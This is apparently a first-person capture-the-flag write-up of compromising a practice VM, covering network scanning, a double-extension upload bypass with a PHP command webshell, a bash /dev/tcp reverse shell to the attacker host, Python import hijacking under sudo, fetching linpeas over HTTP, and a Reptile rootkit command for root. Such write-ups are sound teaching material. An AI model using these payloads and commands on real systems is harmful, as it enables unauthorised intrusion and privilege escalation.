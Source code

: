 ### **Initial Reconnaissance: Finding My Target**

My first step, as always, was to figure out what hosts were alive on the network. I used `netdiscover` to scan the `192.168.1.0/24` subnet. The output quickly showed me a few active devices, and `192.168.1.31` stood out as a potential target, identified by its MAC address vendor as "PCS Systemtechnik GmbH," which often indicates a virtual machine.

Once I had a target IP, I immediately launched a comprehensive `nmap` scan. I used `nmap -sS -sV -Pn --min-rate=1000 --max-retries=2 192.168.1.31 -p-` to perform a SYN stealth scan, detect service versions, disable host discovery (since I already knew it was up), set a minimum packet rate for speed, and scan all 65535 TCP ports.

The `nmap` results were clear:

- **Port 22:** Open, running OpenSSH 7.9p1 Debian.
- **Port 80:** Open, running Apache httpd 2.4.38 ((Debian)).


This told me I had an SSH service and a web server to investigate.

### **Web Enumeration: Uncovering Hidden Paths**

With Port 80 open, my next move was to enumerate the web server for hidden directories and files. I started with `ffuf` and `gobuster`, using a common wordlist (`/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`) and looking for `.php` and `.txt` extensions.

`ffuf` quickly highlighted a few interesting paths:

- `/upload` (Status: 301 - Redirect)
- `/server-status` (Status: 403 - Forbidden)


`gobuster` confirmed `/upload` and also found `/index.php` and `/upload.php`.

I decided to investigate `index.php` first using `curl http://192.168.1.31/index.php`. This revealed a simple file upload form. The form's HTML indicated that it was designed to upload files to `upload.php` and explicitly stated: "Note: Only .jpg, .jpeg, .jpeg, .gif, .png formats are allowed up to a maximum size of 5 Mo."

I then checked `upload.php` directly with `curl http://192.168.1.31/upload.php`. It returned an empty response, which is typical for a backend processing script. Later, once I had a shell, I was able to `cat upload.php` and confirm its logic: it checks both the file extension (`pathinfo($filename, PATHINFO_EXTENSION)`) and the MIME type (`$_FILES["photo"]["type"]`) against a whitelist of image formats.

### **Gaining Initial Foothold: The Double Extension Trick**

Knowing the upload form's restrictions, I immediately thought of a common bypass for PHP file uploads: the double extension trick. Many web servers, especially Apache with certain configurations, will process a file like `shell.php.jpg` as a PHP file if the `.php` extension is recognized first, effectively ignoring the `.jpg` part.

I crafted a simple PHP reverse shell payload:

```php
<?php exec($_GET["cmd"]); ?>
```

I saved this payload to a file named `test.php.jpg` on my Kali machine.

Although the terminal output doesn't show the exact `POST` request for the upload, the subsequent `curl` command to `http://192.168.1.31/upload/test.php.jpg` (which returned a PHP warning about a blank command) confirmed that my file was successfully uploaded and was being interpreted as PHP!

With the file uploaded, I set up a Netcat listener on my Kali machine (`nc -lvnp 4444`). Then, I triggered the reverse shell by sending a `curl` request to my uploaded file, passing a bash reverse shell command through the `cmd` GET parameter:

```shellscript
curl 'http://192.168.1.31/upload/test.php.jpg?cmd=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.5%2F4444%200%3E%261%22'
```

Boom! My Netcat listener caught the connection, and I had a shell as the `www-data` user.

### **User Privilege Escalation: From `www-data` to `tignasse`**

Now that I had a foothold, I started enumerating the system as `www-data`. My first instinct was to look for other users on the system. I navigated to `/home` and listed its contents: `mister_b` and `tignasse`.

I tried to `cd mister_b`, but permission was denied. However, `cd tignasse` worked! Inside `tignasse`'s home directory, a quick `ls -la` revealed a file named `.pass.txt`.

I tried `cat .pass.txt`, which initially showed "Try harder !". This seemed like a hint, but I suspected there might be hidden characters. I used `xxd .pass.txt` and `cat -A .pass.txt` to inspect the file more closely. This revealed `716n4553^MTry harder !$`. The `^M` (carriage return) indicated that `716n4553` was likely the actual password, with "Try harder !" being a misleading message on a new line.

I immediately tried to switch user to `tignasse` using `su tignasse` and the password `716n4553`. It worked! I confirmed my new user ID with `id`: `uid=1000(tignasse)`. To get a more stable and interactive shell, I spawned a PTY using Python: `python3 -c "import pty;pty.spawn('/bin/bash')"`.

### **User Privilege Escalation: From `tignasse` to `mister_b`**

As `tignasse`, my next step was to check for `sudo` privileges. I ran `sudo -l`, and the output was very interesting:

```plaintext
User tignasse may run the following commands on kuus:
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py
```

This meant I could execute `/usr/bin/python /opt/games/game.py` as the `mister_b` user without needing a password!

I inspected the `game.py` script located at `/opt/games/game.py`. It was a simple Python 2 "Rock, Paper, Scissors" game. Crucially, it imported `random` and `os`. I also checked the permissions of the `/opt/games` directory: `drwxrwx--- 2 mister_b tignasse`. This showed that the directory was group-writable by `tignasse`.

This was a classic Python library hijacking vulnerability. Since `/opt/games` was writable by me (`tignasse`), and `game.py` was executed from within that directory, Python's import mechanism would look for modules in the current directory first before checking system-wide paths. This meant I could create my own malicious `random.py` file in `/opt/games`, and `game.py` would import it instead of the legitimate `random` module.

I created a `random.py` file in `/opt/games` with the following content:

```python
import os
os.system('/bin/bash')
```

This simple script would execute a bash shell.

Then, I executed the `game.py` script as `mister_b` using my `sudo` privilege:

```shellscript
sudo -u mister_b /usr/bin/python /opt/games/game.py
```

Immediately, I got a new shell! I ran `id` to confirm, and indeed, I was now `uid=1001(mister_b)`.

Inside `mister_b`'s home directory, I found `user.txt`. I `cat`ed it and got the first flag: `Ciphura`.

### **Root Privilege Escalation: The Reptile Rootkit**

Now as `mister_b`, I needed to find a way to escalate to root. I started by transferring `linpeas.sh` to the target machine. On my Kali, I copied `linpeas.sh` to my current directory and started a Python HTTP server (`python3 -m http.server 80`). On the target, as `mister_b`, I used `wget http://192.168.1.5/linpeas.sh` to download it, then `chmod +x linpeas.sh` and `./linpeas.sh` to run it.

LinPEAS provided a wealth of information. Among the many findings, a few things stood out:

- **Kernel Version:** `Linux version 4.19.0-16-amd64`. LinPEAS suggested `CVE-2019-13272 (PTRACE_TRACEME)` as a highly probable exploit for this kernel version on Debian 10. I also saw `CVE-2021-3156 (sudo Baron Samedit)`.
- **`pkexec`:** The `PTRACE_TRACEME` exploit often targets `pkexec`. However, when I tried `which pkexec` and `find / -perm -4000` (to find SUID binaries), `pkexec` wasn't immediately found. The exploit itself also reported `[-] Could not find pkexec executable at /usr/bin/pkexec`. This suggested the `PTRACE_TRACEME` exploit might not work directly without `pkexec`.


However, something else caught my eye from my earlier `www-data` shell. I had noticed a directory `/reptile` and tried to execute `reptile_cmd` from there, which failed. While reviewing the provided terminal output, I saw a large block of text that looked like a Metasploit module description for `exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc`. This description explicitly stated:

> "This module uses Reptile rootkit's `reptile_cmd` backdoor executable to gain root privileges using the `root` command. The `reptile_cmd` utility, installed to `/reptile` by default, permits elevating privileges to root using the `root` argument."



This was the key! I had tried `./reptile_cmd shell` and `./reptile_cmd /bin/bash` earlier, but not `./reptile_cmd root`.

I switched back to my `www-data` shell (or re-established it if it had died). I navigated to `/reptile` and executed the command:

```shellscript
./reptile_cmd root
```

Immediately, my user ID changed! `id` showed `uid=0(root) gid=0(root) groups=0(root)`. I had successfully gained root privileges!

Finally, I navigated to the `/root` directory, listed its contents, and found `root.txt`. I `cat`ed it to get the final flag: `Warulli`.

This challenge was a great exercise in methodical enumeration, understanding common web vulnerabilities, and leveraging specific system misconfigurations and installed software for privilege escalation. The Python import hijacking and the obscure rootkit command were particularly satisfying finds!
